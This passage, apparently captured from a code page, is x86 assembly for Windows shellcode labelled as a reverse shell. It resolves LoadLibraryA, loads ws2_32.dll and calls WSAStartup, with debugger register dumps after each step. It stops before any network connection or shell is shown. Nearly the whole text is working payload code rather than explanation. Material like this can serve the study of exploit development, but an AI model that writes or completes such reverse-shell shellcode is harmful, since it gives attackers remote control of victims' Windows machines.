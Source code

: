```s``` is a descriptor identifying an unconnected socket.<br>
	call edx                    ; call GetProcAddress and find LoadLibraryA address

    ; EAX 76392864 kernel32.LoadLibraryA
    ; ECX 76340000 kernel32.76340000
    ; EDX 76340000 kernel32.76340000
    ; EBX 76340000 kernel32.76340000
    ; ESP 0022FF7C ASCII "LoadLibraryA"
    ; EBP 76391837 kernel32.GetProcAddress
    ; ESI 763F4DD0 kernel32.763F4DD0
    ; EDI 00000000
    ; EIP 0040106F reverse_.0040106F

getws2_32:
	push 0x61613233			        ; 23
	sub word [esp + 0x2], 0x6161    ; sub aa from aa23_2sw
	push 0x5f327377 		        ; _2sw
	push esp                        ; pointer to the string
	call eax 						; call Loadlibrary and find ws2_32.dll
	mov esi, eax                    ; save winsock handle for future puproses

    ; EAX 76740000 OFFSET ws2_32.#332
    ; ECX 77DC316F ntdll.77DC316F
    ; EDX 005E0174
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FF74 ASCII "ws2_32"
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76740000 OFFSET ws2_32.#332
    ; EDI 00000000
    ; EIP 00401085 reverse_.00401085

getWSAStartup:
	push 0x61617075                  ; aapu
	sub word [esp + 0x2], 0x6161     ; sub aa from aapu
	push 0x74726174                  ; trat
	push 0x53415357                  ; SASW
	push esp	                     ; pointer to the string
	push esi	                     ; winsock handler
	call ebp                         ; GetProcAddress(ws2_32.dll, WSAStartup)

    ; EAX 7674C0FB ws2_32.WSAStartup
    ; ECX 76740000 OFFSET ws2_32.#332
    ; EDX 00001725
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FF68 ASCII "WSAStartup"
    ; EBP 766B1837 kernel32.GetProcAddress
    ; ESI 76740000 OFFSET ws2_32.#332
    ; EDI 00000000
    ; EIP 0040109F reverse_.0040109F

callWSAStartUp:
	xor edx, edx
	mov dx, 0x190          ; EAX = sizeof( struct WSAData )
	sub esp, edx           ; alloc some space for the WSAData structure
	push esp               ; push a pointer to this stuct
	push edx               ; push the wVersionRequested parameter
	call eax               ; call WSAStartup(MAKEWORD(2, 2), wsadata_pointer)

    ; EAX 00000000
    ; ECX 7674C230 ws2_32.7674C230
    ; EDX 77DB0002 ASCII "ingToUnicodeString"
    ; EBX 76660000 kernel32.76660000
    ; ESP 0022FDD8
    ; EBP 766B1837 kernel32.GetProcAddress
```